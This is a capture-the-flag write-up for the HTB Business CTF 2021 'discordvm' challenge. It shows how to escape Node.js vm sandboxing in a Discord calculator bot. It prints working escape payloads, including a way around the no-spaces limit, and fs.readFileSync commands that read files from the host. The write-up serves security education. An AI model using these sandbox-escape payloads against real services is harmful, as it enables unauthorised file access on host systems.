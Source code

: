 ## HTB Business CTF 2021: discordvm

# Introduction
We introduced "sandboxing" using Node.js vm module on our calculator feature.
`https://discord.gg/<redacted>`

> Complete write up for the `discordvm` challenge at Business CTF 2021 hosted by [Hack The Box](https://www.hackthebox.eu/htb-business-ctf-2021). This article is a part of a HTB Business CTF 2021 series. 

> Learn more from additional readings found at the end of the article. I would be thankful if you mention me when using parts of this article in your work. Enjoy!

***
# Contents
1. [Introduction](#introduction)
* [Basic Information](#basic-information)
* [Recon](#recon)
* [Weaponizing](#weaponizing)
* [Exploit](#exploit)
* [Additional readings](#additional-readings)
***

# Basic Information

| #   |     |
| :-- | :-- |
|Type    | Jeopardy CTF / Miscellaneous
|Organized  by | [Hack The Box](https://hackthebox.eu/htb-business-ctf-2021/)
|Name    | **HTB Business CTF 2021 / discordvm**
| CTFtime weight | [24.33](https://ctftime.org/rating-formula/) 
|Started | 2021/07/23 12:00 UTC
|Ended | 2021/07/25 18:00 UTC
|URLs    | https://ctf.hackthebox.eu/ctf/135
|Author  | **Asentinn** / NetCrawlers
|       | https://ctftime.org/team/159004

%%[patreon-btn]

> 🔔 `CyberEthical.Me` is maintained purely from your donations - consider one-time sponsoring with the [Sponsor](/sponsor) button or 🎁 [become a Patron](https://www.patreon.com/cyberethicalme) which also gives you some bonus perks.

# Recon

We are provided with the Discord Server invite. 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627303578339/DkakSkJyc.png)

We are having single `general` channel, without permissions to send messages. In the message history we can read

> [+] Welcome to our mock Discord server! 👋 

> It is intended that you cannot send messages here. 🔒

> The purpose of this Discord server is to just host the Business CTF 2021 Misc challenge > called discordvm. :metal: 

> Do not DM anyone other than `@discordvm` . ⛔ 

> To interact with the challenge DM `@discordvm` the command !help. Have fun! 👏

So, the purpose of this challenge is to get the flag from the Discord Bot - `@discordvm`. We are also provided with the backend source code:

```js
const vm = require('vm');
const payload = '1+1';
console.log(vm.runInNewContext(payload));

// The Discord bot get's args[0], so pretty much the same setup except no spaces.
```

## Communication with the bot

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627304096045/KMbYmTh82.png)

Bot reacts to the `!help` and `!calc` commands. Second one apparently just pass the arguments of command as a `payload` to the `vm.runInNewContext` NodeJS method.

# Weaponizing

Let's create a local NodeJS application that is obtaining the payload in its arguments, just like the bot.

```js
const vm = require('vm');
var myArgs = process.argv.slice(2);

console.log(vm.runInNewContext(myArgs[0]));
```

To run it, simply call `node main.js 1+1`

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627304307486/TJJNNYDo7.png)

Now, working together with the [The unsecure node vm module](https://thegoodhacker.com/posts/the-unsecure-node-vm-module/) article I come up with the following Node VM escape command

```text
node main.js "(this.constructor.constructor('return this'))()"
```
![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627304481835/O4mo9oOq3A.png)

# Exploit

Passing an exploit in the command does error out.

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627308677841/yrys4YzOn.png)

It seems like there is an issue with the space in the command. There are multiple ways to challenge that. I went with `String.fromCharCode("160")`

```text
!calc (this.constructor.constructor('return'+String.fromCharCode("160")+'this'))()
```

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627310136104/3DaREOq6f.png)

We can see that returned is the `object`. Now, by enumerating available members or `this` we can find out that `fs` is loaded.

```
!calc (this.constructor.constructor('return'+String.fromCharCode("160")+'Object.entries(this)[9]'))()
```
![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627310439967/1qDn6ZLGr.png)

This is what we need. Let's retrieve the flag from the file system.

```
!calc (this.constructor.constructor("return"+String.fromCharCode("160")+"this.fs.readdirSync('.')"))()
!calc (this.constructor.constructor("return"+String.fromCharCode("160")+"this.fs.readFileSync('flag.txt')"))()
```
![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627310955408/_UrmpfYgz_.png)

> Do you like what you see? Join the [Hashnode.com](https://blog.cyberethical.me/join) now and start publishing. Things that are awesome:

>✔ Automatic GitHub Backup

>✔ Write in Markdown

>✔ Free domain mapping

>✔ CDN hosted images

>✔ Free built-in newsletter service

>✔ Built-in blog monetizing through the Sponsor feature

> By using my link, you can help me unlock the ambassador role, which cost you nothing and gives me some additional features to support my content creation mojo.

# Additional readings

> 📌 Follow the `#CyberEthical` hashtag on the social media

> 🎁 Become a Patron and [gain additional benefits](https://www.patreon.com/cyberethicalme)

> 👉 Instagram: [@cyber.ethical.me](https://www.instagram.com/cyber.ethical.me/)

> 👉 LinkedIn: [Kamil Gierach-Pacanek](https://www.linkedin.com/in/kamilpacanek)

> 👉 Twitter: [@cyberethical_me](https://twitter.com/cyberethical_me)

> 👉 Facebook: [@CyberEthicalMe](https://facebook.com/CyberEthicalMe)

* [The unsecure node vm module](https://thegoodhacker.com/posts/the-unsecure-node-vm-module/)
* [How do I read files in Node.js?
](https://nodejs.org/en/knowledge/file-system/how-to-read-files-in-nodejs/)